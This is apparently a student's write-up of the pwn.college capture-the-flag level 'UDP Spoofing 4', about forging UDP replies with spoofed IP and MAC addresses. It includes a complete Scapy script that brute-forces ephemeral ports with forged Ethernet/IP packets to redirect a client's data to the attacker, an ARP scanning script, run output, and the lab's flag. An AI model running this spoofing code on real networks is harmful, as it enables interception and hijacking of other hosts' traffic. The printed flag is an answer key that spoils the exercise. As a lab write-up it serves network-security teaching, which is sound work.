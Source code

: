 # 🛰️ UDP Spoofing 4 – Writeup (pwn.college)

## 📌 Challenge Summary

> In this level, **MAC address verification** is introduced. The client no longer just checks IP and port — it now verifies the **source MAC address** of the server. This mimics real-world behavior in local network spoofing, where **layer 2** details (MAC) matter. To succeed, you must **spoof the IP _and_ MAC address** of the server and deliver the payload to the correct source port.

---

## 🧠 Understanding the Setup

Three entities again:

- `Server (10.0.0.3)` → Real MAC: `86:d1:db:9c:0f:74`
- `Client (10.0.0.2)` → Real MAC: `ae:c5:25:6c:f0:ec`
- `Attacker (10.0.0.1)` → You, spoofing both IP and MAC

### 🧩 Key Points:
- The client sends a request to the server and waits for a reply.
- It expects that reply to come **from the correct IP and MAC**.
- The source port is still randomized — so we need to **brute-force the ephemeral ports**, but this time with proper MAC spoofing.

---

## 🔍 How We Exploit It

### 🔒 Challenge:
We need to forge a packet such that:
- `src IP` = `10.0.0.3` (spoofed)
- `dst IP` = `10.0.0.2` (client)
- `src MAC` = `86:d1:db:9c:0f:74` (server’s real MAC)
- `dst MAC` = `ae:c5:25:6c:f0:ec` (client’s real MAC)
- `UDP dport` = guessed (loop 49152–65535)
- Payload = `FLAG:10.0.0.1:12345` to redirect the response to us

---

## 🧪 Attack Plan

1. **Discover MAC addresses** using ARP scan via `mac_3.py`
2. **Sniff for flag response** on attacker's IP:port (`10.0.0.1:12345`)
3. **Send spoofed packets** using `sendp()` with:
   - Ethernet header (with spoofed MAC addresses)
   - IP/UDP payload with flag redirect
   - Loop through ports `49152–65535`
4. **Success**: If MAC/IP/port match, the client will send the flag to our listener

---

## 💣 Final Exploit – `ide.py`

```python
from scapy.all import send, sniff, IP, UDP , Ether , sendp
import threading
import sys

attacker_ip = '10.0.0.1'
attacker_port = 12345
target_ip = '10.0.0.2'
spoofed_src_ip = '10.0.0.3'

found_flag = False
src = input("mac src = ")  # Server MAC
dst = input("mac dst = ")  # Client MAC

def udp_req():
    global found_flag
    print("[*] Starting to send spoofed responses...")
    for i in range(49152, 65536):
        if found_flag:
            break
        pkt = Ether(src=src , dst=dst)/IP(dst=target_ip, src=spoofed_src_ip)/UDP(dport=i, sport=31337)
        payload = f'FLAG:{attacker_ip}:{attacker_port}'
        sendp(pkt/payload, verbose=False, iface='eth0')
    print("[*] Finished sending spoofed packets.")

def sniffer():
    global found_flag

    def handle(pkt):
        global found_flag
        if pkt.haslayer(UDP) and pkt[UDP].dport == attacker_port:
            print("[*] Flag captured!")
            print(f"Data: {bytes(pkt[UDP].payload)}")
            pkt.show()
            found_flag = True
            sys.exit(0)

    print("[*] Sniffing for incoming flag response...")
    sniff(filter=f"udp and port {attacker_port}", prn=handle)

if __name__ == "__main__":
    t = threading.Thread(target=sniffer)
    t.daemon = True
    t.start()
    udp_req()
    t.join()
```
###  MAC Discovery Script

```python
from scapy.all import ARP, Ether, srp

target_ip = input("ip:")

# Build the ARP request
arp = ARP(pdst=target_ip)
ether = Ether(dst="ff:ff:ff:ff:ff:ff")  # Broadcast

packet = ether / arp

# Send the packet and receive the response
ans, _ = srp(packet, timeout=2, verbose=False)

for sent, received in ans:
    print(f"IP: {received.psrc} - MAC: {received.hwsrc}")
```

### Output

```bash
mac src = 86:d1:db:9c:0f:74
mac dst = ae:c5:25:6c:f0:ec
[*] Sniffing for incoming flag response...
[*] Starting to send spoofed responses...
[*] Flag captured!
Data: b'pwn.college{AnV4AvxOApEFOrysLCQBN3nRBT1.01N0AjNxwSM0IzMyEzW}\n'
###[ Ethernet ]###
  dst       = 6a:ea:10:e5:9c:d8
  src       = ae:c5:25:6c:f0:ec
  type      = IPv4
###[ IP ]###
     src       = 10.0.0.2
     dst       = 10.0.0.1
###[ UDP ]###
     sport     = 57740
     dport     = 12345
###[ Raw ]###
     load      = b'pwn.college{AnV4AvxOApEFOrysLCQBN3nRBT1.01N0AjNxwSM0IzMyEzW}\n'
```

---

## Flag
```bash
pwn.college{AnV4AvxOApEFOrysLCQBN3nRBT1.01N0AjNxwSM0IzMyEzW}
```

---

